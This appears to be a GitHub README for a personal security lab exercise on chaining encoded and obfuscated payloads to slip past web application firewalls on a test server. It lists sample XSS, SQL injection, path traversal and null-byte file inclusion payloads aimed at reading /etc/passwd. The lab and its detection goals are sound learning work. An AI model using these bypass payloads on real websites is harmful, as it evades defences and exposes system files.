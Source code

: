 # 🔗 Tool 1 – Payload Chaining (WAF Bypass)

## 🎯 Objective

Craft and test **layered payloads** that combine multiple evasion techniques like encoding, logic manipulation, path traversal, and injection chaining to evade Web Application Firewalls (WAFs).

---

## 🧪 Target Environment

- **Target IP:** http://192.168.1.110
- **Testbed:** DVWA / Mutillidae behind ModSecurity or Cloudflare
- **Tools:** Burp Suite, browser, encoded payloads

---

## 📁 Output Files

📄 `logs/payload-chain.txt`  
- Contains a variety of XSS, SQLi, LFI, and Path Traversal payloads  
- Each crafted using encoding, obfuscation, and null byte injection

📷 `screenshots/payload-chain-test.png`  
- Screenshot simulating terminal or Burp Suite results

---

## 🧬 Payload Samples

### ✅ XSS Bypass Examples

Original: <script>alert(1)</script>
Obfuscated:
%3Cscript%3Ealert%281%29%3C/script%3E
\u003Cscript\u003Ealert(1)\u003C/script\u003E
<scr<script>ipt>alert(1)</scr<script>ipt>

### ✅ SQL Injection Bypass

Original: ' OR 1=1--
Obfuscated:
%27%20OR%201%3D1--
/!50000OR/1=1--
%27//OR//1%3D1--

### ✅ Path Traversal Bypass

Original: ../../etc/passwd
Obfuscated:
..%2f..%2fetc/passwd
....//....//etc/passwd
..\..\etc\passwd

### ✅ LFI with Null Byte Injection

/index.php?file=../../etc/passwd%00

## 🧠 What I Learned

- How attackers use **multi-layered payloads** to bypass detection systems
- The significance of encoding and logic manipulation in real-world scenarios
- How WAFs parse different encoding formats and inconsistencies
- Prepping filters for evasion-resistant detection in Blue Team defenses

## 🙋 About Me

I’m a Blue Teamer transitioning into Red Teaming, building real-world attack and defense labs.

🔗 [Connect with me on LinkedIn](https://www.linkedin.com/in/aditya-kumar-goswami)  
📁 GitHub: [Aditya-Sec](https://github.com/Aditya-Sec)

📌 **Disclaimer:** This module is for **educational and ethical testing only** in a controlled environment.
